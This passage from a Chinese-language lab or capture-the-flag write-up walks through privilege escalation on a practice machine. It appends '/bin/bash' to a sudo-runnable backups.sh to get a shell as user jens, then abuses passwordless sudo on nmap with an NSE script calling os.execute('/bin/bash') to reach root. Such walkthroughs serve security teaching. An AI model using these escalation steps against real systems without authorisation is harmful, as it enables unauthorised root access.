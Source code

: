```
whoami
sudo -l  #列出目前的权限
```

![image-20220317153939710](https://gitee.com/xxb667/img/raw/master/img/image-20220317153939710.png)

发现可以以 jens 用户的权限操作 /home/jens 目录下的 backups.sh 文件

backups.sh的内容为：

```sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

![image-20220317154048181](https://gitee.com/xxb667/img/raw/master/img/image-20220317154048181.png)

在 backups.sh 文件末尾添加 /bin/bash ，当执行 backups.sh 文件时可切换至 jens 用户

```shell
echo "/bin/bash" >>/home/jens/backups.sh

```

切换文件夹到jens目录下

```
cd /home/jens
```

再实现下面命令

```
sudo -u jens ./backups.sh   #sudo -u指定用户执行命令
```

![image-20220317154512406](https://gitee.com/xxb667/img/raw/master/img/image-20220317154512406.png)

查看权限目录权限，可以不用密码以root权限执行/usr/bin/nmap这个文件

```
sudo -l
```

![image-20220317154631988](https://gitee.com/xxb667/img/raw/master/img/image-20220317154631988.png)

nmap 可以执行脚本文件，可以创建一个文件并写入反弹 shell 的命令，默认用root 权限执行，所以反弹的 shell 也是 root

```
echo 'os.execute("/bin/bash")' >aaa.nse
sudo -u root nmap --script=aaa.nse   #以root用户执行 nmap 
```

![image-20220317154750535](https://gitee.com/xxb667/img/raw/master/img/image-20220317154750535.png)

# 5.获取flag

